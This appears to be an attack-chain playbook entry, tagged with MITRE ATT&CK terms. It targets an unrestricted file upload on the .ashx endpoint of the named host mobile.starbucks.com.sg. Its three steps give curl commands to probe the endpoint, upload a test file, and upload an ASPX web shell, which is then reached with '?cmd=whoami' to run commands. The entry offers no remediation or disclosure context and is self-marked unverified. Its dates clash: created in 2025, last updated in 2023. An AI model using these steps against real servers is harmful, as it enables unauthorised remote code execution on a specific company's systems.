

---
tags:
  - unrestricted-file-upload
  - rce
  - web-vulnerability
  - asp.net
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
commands:
  - '[[commands/curl-analyze-endpoint]]'
  - '[[commands/curl-test-upload]]'
  - '[[commands/curl-malicious-upload]]'
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Analyze-File-Upload-Endpoint]]'
  - '[[procedures/Test-Unrestricted-File-Upload]]'
  - '[[procedures/Upload-Malicious-File-for-RCE]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Remote File Copy]]'
description: >-
  A multi-stage attack exploiting an unrestricted file upload vulnerability on
  the .ashx endpoint of mobile.starbucks.com.sg to achieve remote code execution
  via malicious file upload.
skill_level: intermediate
impact_level: high
id: 126f5004-4993-4339-bb4b-3810d74ae302
created_at: '2025-12-14T05:32:13.803Z'
updated_at: '2025-12-14T05:32:13.803Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Remote File Copy]]'
---
# Unrestricted File Upload Leading to RCE on Starbucks Mobile Endpoint

Multi-stage attack chain demonstrating exploitation of an unrestricted file upload vulnerability on the .ashx endpoint of mobile.starbucks.com.sg, allowing arbitrary file types to be uploaded and potentially leading to remote code execution on the ASP.NET server.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools for initial analysis
- [[commands/curl-analyze-endpoint]] or similar for HTTP requests

### Target Environment

- Web platform
- ASP.NET services
- Accessible HTTPS endpoint on mobile.starbucks.com.sg

### Initial Access Requirements

- Public network access to mobile.starbucks.com.sg
- No authentication required for the upload endpoint
- Basic knowledge of HTTP file uploads

## Detailed Attack Procedures

### Step 1: Analyze File Upload Endpoint
procedure: [[procedures/Analyze-File-Upload-Endpoint]]

**Objective**: Identify and inspect the .ashx upload endpoint to confirm its purpose and lack of restrictions.

**Instructions**: Use browser developer tools or [[commands/curl-analyze-endpoint]] to inspect network traffic during legitimate image uploads on the mobile site, revealing the .ashx endpoint handling file submissions.

```bash
curl -X GET https://mobile.starbucks.com.sg/upload.ashx -v
```

Monitor responses for any file type validation hints.

**Expected Output**: HTTP response showing the endpoint accepts POST requests for files, with no immediate rejection.

**Success Indicators**:
- Endpoint identified as handling image uploads
- No client-side validation observed

### Step 2: Test Unrestricted File Upload
procedure: [[procedures/Test-Unrestricted-File-Upload]]

**Objective**: Verify that the endpoint allows non-image file types, confirming the unrestricted upload vulnerability.

**Instructions**: Attempt to upload a benign non-image file, such as a .txt file, using [[commands/curl-test-upload]] to simulate the upload process.

```bash
curl -X POST https://mobile.starbucks.com.sg/upload.ashx -F "file=@test.txt" -v
```

Check if the file is accepted and potentially stored on the server.

**Expected Output**: Successful HTTP 200 response without file type rejection, possibly with a file path or confirmation.

**Success Indicators**:
- Non-image file uploaded without error
- Server processes the request

### Step 3: Upload Malicious File for RCE
procedure: [[procedures/Upload-Malicious-File-for-RCE]]

**Objective**: Upload a malicious ASPX file (web shell) to achieve remote code execution on the server.

**Instructions**: Craft a simple ASPX web shell and upload it using [[commands/curl-malicious-upload]]. Then access the uploaded file to execute commands.

```bash
curl -X POST https://mobile.starbucks.com.sg/upload.ashx -F "file=@shell.aspx" -v
```

Follow up by accessing the uploaded shell at the returned or predictable path, e.g., https://mobile.starbucks.com.sg/uploads/shell.aspx?cmd=whoami.

**Expected Output**: File upload success, followed by command execution output when accessing the shell.

**Success Indicators**:
- Malicious file uploaded and accessible
- Server executes code from the uploaded file

## Attack Chain Summary

### Key Achievements

1. Identification of vulnerable .ashx endpoint on mobile.starbucks.com.sg
2. Confirmation of unrestricted file uploads bypassing intended image-only restrictions
3. Achievement of potential RCE through malicious ASPX shell upload

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Remote File Copy]]

### MITRE ATT&CK Tactics

- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
